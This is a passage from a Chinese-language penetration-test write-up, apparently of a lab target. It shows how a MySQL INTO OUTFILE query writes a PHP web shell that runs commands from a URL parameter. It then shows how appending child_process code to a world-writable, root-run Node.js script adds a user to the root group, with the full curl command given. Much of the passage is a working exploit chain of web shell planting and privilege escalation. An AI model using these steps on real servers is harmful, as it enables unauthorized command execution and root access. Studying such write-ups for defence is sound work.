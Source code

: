 ```/etc/nginx/nginx.conf```没有发现PHP相关的配置，网站的nginx配置可能在```/etc/nginx/sites-enabled```目录下。

[![5Jr0iD.png](https://z3.ax1x.com/2021/10/16/5Jr0iD.png)](https://imgtu.com/i/5Jr0iD)

访问```curl http://127.0.0.1:8002```看看，好家伙，写入成功了。

[![5JrhFS.png](https://z3.ax1x.com/2021/10/16/5JrhFS.png)](https://imgtu.com/i/5JrhFS)

现在可以写webshell了，下面是将一段PHP代码写入到```/var/www/phpupfile/uploads/img.php```文件。这段代码会从url参数中读取命令(command)并执行它。

```sql
select '<?php system($_GET["command"] . " 2>&1");' into outfile  '/var/www/phpupfile/uploads/img.php';
```
[![5JsB7V.png](https://z3.ax1x.com/2021/10/16/5JsB7V.png)](https://imgtu.com/i/5JsB7V)

执行命令的效果。
[![5Jsfn1.png](https://z3.ax1x.com/2021/10/16/5Jsfn1.png)](https://imgtu.com/i/5Jsfn1)


到这里webshell就注入成功了，现在我们可以在服务器执行命令了。不过webshell的执行权限有限，它是以```www-data```用户运行的。


提权
---

怎么能够拿到更高的权限呢？通过上面执行的```ps auxf```命令可以看到服务器还运行了一个nodejs的脚本。如果可以在这个脚本里面一段代码那么就可以提权了，因为它是以root权限运行的。先看看```/var/www/nodejs/server.js```的权限。

[![5JytUK.png](https://z3.ax1x.com/2021/10/16/5JytUK.png)](https://imgtu.com/i/5JytUK)

权限竟然是777，那就好办了，只要往这个脚本追加一段代码，等它下次重启的时候就会被执行，而且是以root用户执行！

[![5JyOGF.png](https://z3.ax1x.com/2021/10/16/5JyOGF.png)](https://imgtu.com/i/5JyOGF)

添加一个新用户user1并将其添加到root组中。
```
useradd -M -N -G root user1
```

在nodejs中可以通过```child_process```模块执行命令：

```
try{
  require('child_process').execSync('useradd -M -N -G root user1')
} catch (e) {}
```

执行命令：

```
curl http://127.0.0.1:8002/uploads/img.php?command=echo%20%22try{%20require(%27child_process%27).execSync(%27useradd%20-M%20-N%20-G%20root%20user1%27)%20}%20catch%20(e)%20{}%22%20%3E%3E%20/var/www/nodejs/server.js
```

查看是否写入成功。

[![5Jg0v4.png](https://z3.ax1x.com/2021/10/16/5Jg0v4.png)](https://imgtu.com/i/5Jg0v4)
